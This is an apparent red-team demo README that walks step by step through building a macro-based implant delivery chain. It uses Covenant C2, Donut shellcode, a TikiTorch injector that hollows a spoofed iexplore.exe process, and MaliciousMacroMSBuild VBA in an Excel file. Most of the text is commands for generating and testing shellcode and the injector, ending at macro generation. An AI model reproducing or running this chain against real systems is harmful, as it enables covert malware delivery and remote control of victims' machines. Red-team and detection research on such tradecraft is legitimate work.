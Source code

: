 *NOTE: THIS DEMO DOESN'T WORK! BECAUSE F$$$ THE DEMO GODS*

# Overview

This demo is complicated but demonstrates the depth of tradecraft possible with Donut in combination with other tools and frameworks. The steps we will follow are:

1) Setup Covenant and prove that we can get Grunts running on the target box.
2) Create a Grunt EXE and generate shellcode that runs it.
3) Prepare a .NET Assembly based on TikiTorch by rastamouse. It will create an iexplore.exe process with a spoofed parent of explorer.exe. Then it will inject shellcode into that new process through a variant of Process Hollowing. Embed the Grunt shellcode into this Assembly.
4) Genenerate shellcode from the injector .NET Assembly.
5) Use MaliciousMacroMSBuild to generate VBA that runs this shellcode through VBA in a Microsoft Office document.
6) Add the VBA macro to an Excel document to run on startup.
7) Open the document and run the macro. Get shellz.

# Preparing Covenant

IF IT HAS NOT BEEN RUN BEFORE, start the Covenant docker image with:
```
cd /testing/Covenant/Covenant
docker run -it -p 7443:7443 -p 80:80 -p 443:443 --name covenant -v /testing/Covenant/Covenant/Data:/app/Data covenant
```

IF IT HAS BEEN RUN BEFORE, start the Covenant docker image with:
```
docker start covenant
```

Visit `https://192.168.254.136:7443/`in your browser. Go to Listeners, set the proper Connect IP and start the Listener. Go to Launchers > Binary. Select .NET v4.0 as the target version, and generate a launcher. Download the new launcher to your Demo folder or use the one already there.

Inside the Demo folder, generate the shellcode for the Grunt:
```
.\donut.exe -f .\GruntStager.exe -e
```

The base-64 encoded copy should be in your clipboard if you are doing this on Windows. Otherwise, base64-encode the payload. For safe-keeping, keep the copy in Notepad or another text editor.

Test that the shellcode works by running:
```
.\loader.exe .\instance
```

If it worked, there should now be a new Grunt registered with Covenant and running in the `loader` process.

# Preparing the Payload

Now we will create a TikiTorch injector for the shellcode that we generated above, using the guide on Rasta's blog (https://rastamouse.me/2019/08/covenant-donut-tikitorch/).

```
cd TikiTorch-master
. .\Get-CompressedShellcode.ps1
Get-CompressedShellcode -inFile C:\...\05-Covenant\loader.bin | clip
```

Open up the TikiSpawn project in the TikiTorch solution. Open `Program.cs` and replace the compressed shellcode with that from above.

Build it as a release version. To test that it works, run the following in PowerShell:

```powershell
cd TikiTorch-master\TikiSpawn\bin\Release

[System.Reflection.Assembly]::LoadFile("C:\...\donut\demos\05-Covenant\TikiTorch-master\TikiSpawn\bin\Release\TikiSpawn.dll")

[TikiSpawn]::Flame()
```

Check Covenant to see if you have a callback.

# Generating the Shellcode

Now we will generate the shellcode for the TikiSpawn DLL that we created above.

```
cd ..\..\..\..\
.\donut.exe -f .\TikiTorch-master\TikiSpawn\bin\Release\TikiSpawn.dll -c TikiSpawn -m Flame
```

Test the shellcode with:
```
.\loader.exe .\instance
```

# Generating the Macro

```
python m3-gen.py -p shellcode -i /path/beacon.bin -o output.vba
```

